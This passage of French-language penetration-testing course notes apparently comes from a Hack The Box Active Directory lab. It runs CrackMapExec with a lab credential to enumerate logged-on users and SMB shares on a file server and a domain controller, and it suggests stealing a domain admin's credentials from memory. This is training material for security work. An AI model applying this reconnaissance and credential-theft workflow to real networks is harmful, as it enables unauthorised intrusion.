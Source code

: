 #### CME - Utilisateurs connectés

Nous pouvons également utiliser CME pour cibler d'autres hôtes. Examinons ce qui semble être un serveur de fichiers pour voir quels utilisateurs sont actuellement connectés.

  CME - Utilisateurs connectés

```
dsgsec@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-FILE) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 (Pwn3d!)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] Enumerated loggedon users
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\clusteragent              logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\lab_adm                   logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\svc_qualys                logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\wley                      logon_server: ACADEMY-EA-DC01

<SNIP>

```

On voit que de nombreux utilisateurs sont connectés à ce serveur ce qui est très intéressant. Nous pouvons également voir que notre utilisateur `forend`est un administrateur local car `(Pwn3d!)`apparaît après que l'outil s'est authentifié avec succès auprès de l'hôte cible. Un hôte comme celui-ci peut être utilisé comme hôte de saut ou similaire par les utilisateurs administratifs. Nous pouvons voir que l'utilisateur `wley`est connecté, que nous avons précédemment identifié comme administrateur de domaine. Cela pourrait être une victoire facile si nous pouvions voler les informations d'identification de cet utilisateur dans la mémoire ou les usurper.

Comme nous le verrons plus tard, `BloodHound`(et d'autres outils tels que `PowerView`) peuvent être utilisés pour rechercher des sessions utilisateur. BloodHound est particulièrement puissant car nous pouvons l'utiliser pour visualiser graphiquement et rapidement les sessions des utilisateurs de domaine de plusieurs façons. Quoi qu'il en soit, des outils tels que CME sont parfaits pour une énumération et une recherche d'utilisateurs plus ciblées.

#### Recherche de partage CME

Nous pouvons utiliser l' `--shares`indicateur pour énumérer les partages disponibles sur l'hôte distant et le niveau d'accès de notre compte d'utilisateur à chaque partage (accès READ ou WRITE). Exécutons ceci sur le contrôleur de domaine INLANEFREIGHT.LOCAL.

#### Partage d'énumération - Contrôleur de domaine

  Partage d'énumération - Contrôleur de domaine

```
dsgsec@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated shares
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Share           Permissions     Remark
SMB         172.16.5.5      445    ACADEMY-EA-DC01  -----           -----------     ------
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ADMIN$                          Remote Admin
SMB         172.16.5.5      445    ACADEMY-EA-DC01  C$                              Default share
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Department Shares READ
SMB         172.16.5.5      445    ACADEMY-EA-DC01  IPC$            READ            Remote IPC
SMB         172.16.5.5      445    ACADEMY-EA-DC01  NETLOGON        READ            Logon server share
```